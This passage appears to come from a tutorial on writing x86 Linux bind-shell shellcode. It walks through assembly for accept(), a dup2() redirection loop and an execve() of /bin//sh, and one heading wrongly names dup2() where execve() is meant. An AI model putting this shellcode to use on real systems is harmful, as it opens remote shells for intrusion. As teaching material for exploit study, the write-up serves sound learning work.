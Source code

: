 ```
;// Accept new connections on the socket
;int connection_fd;
;connection_fd = accept(socket_fd, NULL, NULL);
xor eax, eax		; eax = 0
mov ax, 0x16C		; #define __NR_accept4 364
mov ebx, edi		; ebx = socket_fd
xor ecx, ecx		; ecx = 0
xor edx, edx		; edx = 0
int 0x80		; connection_fd will be stored in eax
```
The return value of the function is a new file descriptor that refers to the first connection request on the queue of pending connections for the listening socket, and it will be stored into eax. We will need it for the next syscalls, to we need to copy it somewhere. I have choosen to copy it into esi.
```
mov esi, eax		; esi = connection_fd
```

### dup2()
The `dup2()` function (syscall 63) duplicates a file descriptor. The prototype for this function is defined as follows:
```
int dup2(int oldfd, int newfd);
```
We need to execute this syscall 3 times, to duplicate the 3 file descriptors (STDIN, STDOUT and STDERR) to the file descriptor related to the connection socket created in the previous syscall and stored in esi.

Given that we need to perform the same action 3 times, we are then using a loop with ecx as both counter and argument pointing to the 3 standard file descriptors:
```
	;// Redirect STDIN(0), STDOUT(1) and STDERR(2) on Connection_FD
	;dup2(connection_fd, 0); 
	;dup2(connection_fd, 1);
	;dup2(connection_fd, 2);

	xor ecx, ecx		; ecx = 0
	mov cl, 0x3		; will need to loop 3 times. 	
_dup_loop:
	xor eax, eax
	mov al, 0x3f		; #define __NR_dup2 63
	mov ebx, esi		; ebx = connection_fd
	dec cl			; decrease ecx to get actual FD
	int 0x80
	jnz _dup_loop
```
### execve()
The `dup2()` function (syscall 11) executes a program. The prototype for this function is defined as follows:
```
int execve(const char *pathname, char *const argv[],
           char *const envp[]);
```
We will use it in order to start `/bin//sh` (additional '/' is not affecting the command, it has just been added for padding purposes), therefore we need to push it (along with NULL terminator) on the stack. Argument _envp_ (edx) will be a pointer to a null dword and _argv_ (ecx) will be a pointer to the address of _pathname_ 
